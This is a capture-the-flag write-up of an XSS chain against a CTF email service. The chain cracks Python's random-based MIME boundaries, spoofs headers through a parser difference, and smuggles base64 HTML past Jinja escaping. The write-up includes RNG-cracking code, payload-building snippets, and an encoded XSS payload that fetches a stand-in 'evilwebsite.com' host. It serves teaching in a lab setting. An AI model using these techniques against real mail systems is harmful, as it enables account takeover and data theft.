

# secure-email-service

### Description

> S/MIME means secure email, right? <br>
> Send your very secure emails here <br>
> Username: user@ses <br>
> Source code: secure-email-service.tar <br>
> Please test your exploits against a local instance using the included Docker Compose file before running against remote, thanks!

Ehhthing I hate you <3

---

### Attack

_~ joki pov_

I was blindly ecstatic when I first saw SES because the server was written in Python and not JS. Unfortunately, this barely mattered 😭. The rough outline of the solve path seemed fairly clear at the start, but there were so many missing details that it felt like we made no progress for the first few days.



^ scribbles of a crazy man (pay attention to class bro)

**Table of Contents**
- [secure-email-service](#secure-email-service)
    - [Description](#description)
    - [Attack](#attack)
      - [XSS ](#xss-)
      - [HTML flag ](#html-flag-)
      - [Cracking the boundary ](#cracking-the-boundary-)
      - [A new solvepath? ](#a-new-solvepath-)
      - [Jinja Escape ](#jinja-escape-)
      - [wait... WE'RE SO BACK ](#wait-were-so-back-)
      - [B64 encoded subject ](#b64-encoded-subject-)
      - [Boundary Revenge ](#boundary-revenge-)
      - [Magic (i'm so confused) ](#magic-im-so-confused-)
      - [Payload Time! ](#payload-time-)

#### XSS <a name='xss'></a>

Given the admin bot, we knew there was XSS. Furthermore, there was a section in email.html that looked like an obvious target.

```js
if (parsed.html) {
    const signed = await getSigned(msg.data, await rootCert());
    if (signed) {
        const { html } = await parse(signed);
        const shadow = content.attachShadow({ mode: 'closed' });
        shadow.innerHTML = `<style>:host { all: initial }</style>${html}`;
    } else {
        content.style.color = 'red';
        content.innerText = 'invalid signature!';
    }
}
```

If `html` can be controlled, then we can run any javascript we want! There doesn't even appear to be any cursed CSP stuff (elements ptsd). `attachShadow` seemed a bit scary at first, but a quick google search showed that it's just a way to create a CSS context.

Of course, controlling `html` is literally the entire challenge. Also, when the user sends an email, it doesnt have the html flag set, so it's handled by this logic:

```js
const pre = document.createElement('pre');
pre.style.overflow = 'auto';
pre.innerText = parsed.text;
content.appendChild(pre);
```

#### HTML flag <a name='html'></a>

We can see how the html flag works in `util.py`.

```py
def generate_email(
	sender: str,
	recipient: str,
	subject: str,
	content: str,
	html: bool = False,
	sign: bool = False,
	cert: str = '',
	key: str = '',
) -> str:
	msg = MIMEMultipart()
	msg['From'] = sender
	msg['To'] = recipient
	msg['Subject'] = subject
	msg.attach(MIMEText(content))

	if html:
		msg.attach(MIMEText(content, 'html'))		

	if sign:
		return smail.sign_message(msg, key.encode(), cert.encode()).as_string()

	return msg.as_string()
```

Tldr: if the flag is set, an additional html MIME section is added, and the entire email is signed. This function is called from the `/api/send` route.

```py
@app.post('/api/send')
async def send(
	user: Annotated[User, Depends(db.request_user)],
	to: Annotated[str, Body()],
	subject: Annotated[str, Body()],
	body: Annotated[str, Body()]
):
	# make sure the email we're sending to is valid
	recipient = await db.get_user(to)

	if len(user.public_key) == 0:
		msg = util.generate_email(
			sender=user.username,
			recipient=recipient.username,
			subject=subject,
			content=body,
		)
	else:
		msg = util.generate_email(
			sender=user.username,
			recipient=recipient.username,
			subject=subject,
			content=template.render(
				title=subject,
				content=body
			),
			html=True,
			sign=True,
			cert=user.public_key,
			key=user.private_key
		)

	email_id = str(uuid.uuid4())
	await db.send_email(recipient, email_id, msg)

	return email_id
```

This checks `user.public_key`, generating an html email if it exists. For `user@ses`, the account we have access to, this isn't set, while for admin it is.

So from here there were two general solve paths:
1. Send an email generated serverside with the html flag.
2. Get a user email to be parsed as an html email.

We came up with a few ideas about how to get these to work, and a lot more reasons why they wouldn't.

**Issues with sending an email with html flag**
1. We could login as admin, but both the password and token handling seem frustratingly secure.
2. We could alter user data somehow to add our own keys, set html flag, etc., but all the redis functions seem frustratingly secure. Also, we would have no way of generating proper keys without the root private key.

**Issues with getting a user email parsed as html**
1. Need a way to escape the MIME boundary to do anything useful.
2. We had some cursed fragments of an idea to use admin bot responses to generate signed emails with content we wanted, but it didn't really go anywhere.
3. Even if we could add a properly signed html MIME section, there doesn't seem to be a way to get the openssl verification to work. because the base MIME section would still be MIME multipart, not signed.

At this point I was kinda out of ideas, so I started looking through tangential stuff while waiting for allu to finish handoff. Luckily, this paid off, and I found some juicy stuff in python's `email` module.

#### Cracking the boundary <a name='boundary'></a>

_~ allu pov_

I finally finished handoff (which took so long for no reason), and with too much optimism, started on ses too. It took me like a day to even understand the code (i hate web, too many files), and then got lost in the EFAIL rabbit hole after googling 's/mime vulnerabilities'.

But we felt that looking for an exploit in the MIME file system was probably the right direction to go. And after achieving nirvana a few times, joki suddenly realized that python email uses the python random module to generate the MIME multipart boundaries.

```py
def _make_boundary(cls, text=None):
        # Craft a random boundary.  If text is given, ensure that the chosen
        # boundary doesn't appear in the text.
        token = random.randrange(sys.maxsize)
        boundary = ('=' * 15) + (_fmt % token) + '=='
        if text is None:
            return boundary
        b = boundary
        counter = 0
        while True:
            cre = cls._compile_re('^--' + re.escape(b) + '(--)?$', re.MULTILINE)
            if not cre.search(text):
                break
            b = boundary + '.' + str(counter)
            counter += 1
        return b
```

Conveniently, the `random.randrange` returns a 63 bit integer, which is enough to fully crack the random generator state. With nothing better to do, we decided to crack the rng and worry about the rest later.

Python random uses the MT19937 pseudo-random number generator, which has an internal state consisting of 624 32-bit integers. That means that we only need 624 consecutive outputs from the rng to reliably predict future outputs. Crypto time!

Being a 63 bit integer meant that we were missing a bit (the least significant bit) for every odd index in the state array, while the values at the even indices remain correct. However, when generating a new state value at index `i`, MT19937 only uses the values at indices `i`, `i+1`, and `i+397`. Furthermore, a bit-mask is applied to the value at index `i` such that the the least significant bit of value `i` is not even used. Essentially, this means that only the values at indices `i+1` and `i+397` will determine the validity of the new value at index `i`.

The fact that `1` and `397` have the same parity means that, for the first `624-397` predicted numbers, every number at an odd index will be the correct number. Likewise, the numbers at even indices will have a 1/4 chance of being correct. We experimentally discovered this behavior:

```py
rc = RandCrack()
for i in range(624):
    if i % 2 == 0:
        rc.submit(random.getrandbits(32))
    else:
        rc.submit(random.getrandbits(32) & 0xFFFFFFFE)

for i in range(10):
    n = random.getrandbits(32)
    m = rc.predict_getrandbits(32)
    print(i, str(n).zfill(10), str(m).zfill(10), n == m)
```
```
Output:
0 4229932189 0043544116 False
1 2197115120 2197115120 True
2 1452669075 1452669075 True
3 2385342605 2385342605 True
4 3508229587 3508229586 False
5 0385713639 0385713639 True
6 3850123327 0469496470 False
7 2986870491 2986870491 True
```

At this point, we could have just tried to get lucky, but we didn't know how many times we would need to use the generator and cracking the rest wasn't too bad anyways. Since the generator only depends on 2 unknown bits (one from `i+1` and the other from `i+397`), we can just try all four possibilities and see if our generator predicts the correct numbers. We also know the generator only breaks on generating even indices, which ended up working out nicely because we have the full 32 bits for even-indexed numbers. This process meant that we had to gather a few more random numbers from the server, but it didn't take too long.

The complete code for cracking the rng is in solve.ipynb

#### A new solvepath? <a name='solvepath'></a>

 Okay, so we can predict the boundaries on the generated MIME files. Now what? 

I was thinking about tampering with MIME sections and signatures, but nothing was going to lead anywhere if we couldn't create a signed html email in the first place. Even if we could forge a signature, the problem was getting the `Content-Type: multipart/signed; protocol="application/pkcs7-signature"...` header at the top.

And then I realized that the admin bot's replies were also signed html emails. If we could somehow inject stuff into the bot's replies, we wouldn't have to worry about the html tag, signature, or header.

Well actually, there were two things we had to accomplish. 1: We need some entrypoint to inject our code. 2: We need the admin to somehow send the email back to himself. 

After scanning through the challenge files again, I found my answer to 1 pretty quickly. The subject of the original email was passed to the jinja template again, and the subject was something we could control. The second problem, however, was more iffy at the moment.

I briefly tried to inject a second 'From' header into the 'Subject' header like this: <br>
`subject = 'abc\nFrom: admin@ses'` <br>
but I was met with a mean-looking error from python saying <br>
`HeaderParseError: header value appears to contain an embedded header: 'abc\nFrom: admin@ses'`


So then I gave up on this idea thinking that it was too convoluted for a coherent solve path. I didn't think to dig into the parser webassembly because there's no way that would be the issue, right?

#### Jinja Escape <a name='jinja'></a>

In the meantime, I did however manage to figure out a solution to a problem joki mentioned to me a while ago. Even if we could write anything in the jinja template, any html and attempt at an xss would be escaped.

Instead, we can inject a MIME part with a base64 encoding. The parser will automatically decode the base64, and magic—html in our jinja template! It would look something like this:
```
\n
--===============0123456789abcdef==
Content-Type: text/html
Content-Transfer-Encoding: base64

PGltZyBzcmM9eCBvbmVycm9yPSJmZXRjaCgnZXZpbHdlYnNpdGUuY29tJykiPg==
--===============0123456789abcdef==
```

And then I basically just prayed that joki would figure something out eventually.

#### wait... WE'RE SO BACK <a name='yes'></a>

_~ joki pov_

I briefly looked into putting stuff in headers earlier, but found `HeaderParserError` and gave up because I didn't see how it would lead to a solve even if the error wasn't there. However, allu's idea to get the admin to send an email to itself seemed really promising, so I started playing with the frontend parser, praying for a parser diff.

After a few failed attempts, I finally found something really interesting.

```
Subject: hehe
blahblah
    From: user@ses
```
This doesn't trigger the python `email` error, but `From: user@ses` gets parsed by the frontend! This was the final big piece we needed,  and ended up solving the challenge a few hours later. Here are the steps for clarity:
1. Send an email to admin with a corrupted subject.
2. Visit admin bot.
3. Subject overwrites `From` header, making admin reply to itself.
4. `subject` (as parsed by the frontend, not what we send) is passed into the Jinja template.
5. Since we control what goes into the Jinja template and the boundary is cracked, creating a new html section with whatver we want should be trivial.
6. Jinja filters can be bypassed using Content-Transfer-Encoding.
7. Visit admin bot to view the reply and win.


#### B64 encoded subject <a name='subject'></a>

That being said, there were still a couple of smaller issues we had to deal with. Since we pass the malicious html section within the subject, we need the frontend parser to return a multiline subject. But when we try this the obvious way:

```
Subject: hehehehaw
    line 2
    line 3
blahblah
    From: user@ses
 ```

The resulting subject is `hehehehaw line 2 line 3`.
Our newlines gets eaten!

Fortunately, allu is the goat and thought, "there's gotta be a way to have multiline subjects." So he asked ChatGPT, which gave the exact solution we needed: base 64 encoded subjects.

It turns out that you can write subjects in the form `=?UTF-8?B?{your base64 encoded string here}?=`

Including the jinja b64 bypass from before, the payload looked something like this.

```py
subject = f'''
{boundary}
 Content-Type: text/html
 Content-Transfer-Encoding: base64

{base64.b64encode(xss).decode()}
{boundary}
'''.encode()

payload = f"""=?UTF-8?B?{base64.b64encode(subject).decode()}?=
orz
 From: admin@ses
"""
 ```

But when we ran it, the generated boundaries didn't match, instead having a `.0` appended to the end. Uh-oh.

#### Boundary Revenge <a name='revenge'></a>

_~ allu pov_

It's time to dig into the python `email` module again. Here's the same function as before.
```py
def _make_boundary(cls, text=None):
    # Craft a random boundary.  If text is given, ensure that the chosen
    # boundary doesn't appear in the text.
    token = random.randrange(sys.maxsize)
    boundary = ('=' * 15) + (_fmt % token) + '=='
    if text is None:
        return boundary
    b = boundary
    counter = 0
    while True:
        cre = cls._compile_re('^--' + re.escape(b) + '(--)?$', re.MULTILINE)
        if not cre.search(text):
            break
        b = boundary + '.' + str(counter)
        counter += 1
    return b
```

It looks like they keep appending a counter to the end of the boundary. That's like, very not good. 

And wow, that regex looks scary too. Oh wait, what does that `^` symbol do? Oh it means beginning of line? Oh. Well that was easy 💀

Mild heart attack, but here's our new payload:

```py
subject = f'''{boundary}
 Content-Type: text/html
 Content-Transfer-Encoding: base64

{base64.b64encode(xss).decode()}{boundary}
'''.encode()

payload = f"""=?UTF-8?B?{base64.b64encode(subject).decode()}?=
orz
 From: admin@ses
"""
 ```

TLDR: basically, a boundary is only recognized in python `email` if it is on the beginning of a new line. However, the parser from the frontend doesn't care about being on a new line, so we just put the boundaries on the same line as the previous line.

#### Magic (i'm so confused) <a name='magic'></a>

_~ joki pov_

We're nearing the end!!! The only issue left at this point was that `Content-Transfer-Encoding` wasn't being recognized by the parser, simply returning the encoded hex. I still don't know exactly what was happening, but it definitely had something to do with whitespaces at the beginning of the lines, which were still necessary to avoid the python `email` check. 

```
...
<h1>--boundary
 Content-Type: text/html
 Content-Transfer-Encoding: base64
...
```

With literally 0 justification, the first thing I tried was adding another boundary between the two headers. Magically, it worked 💀.
```
...
<h1>--boundary
 Content-Type: text/html
a--boundary   # Still can't have boundary at the start of a line
 Content-Transfer-Encoding: base64
...
```

We sorta just attributed it to "the parser sucks," and didn't stop to question it. If anyone knows, please explain, we're genuinely curious.

#### Payload Time! <a name='payload'></a>

Now the fun part. After spending so much time on this challenge, we wanted to end it with some style points. Rather than the standard webhook, the script sends an email that contains the flag from the admin, back to the user.

```html

```
Putting everything together, we get the flag! The final script is at [solve.ipynb](https://github.com/alexlu07/zwsp-PicoCTF-2025-Writeups/blob/main/).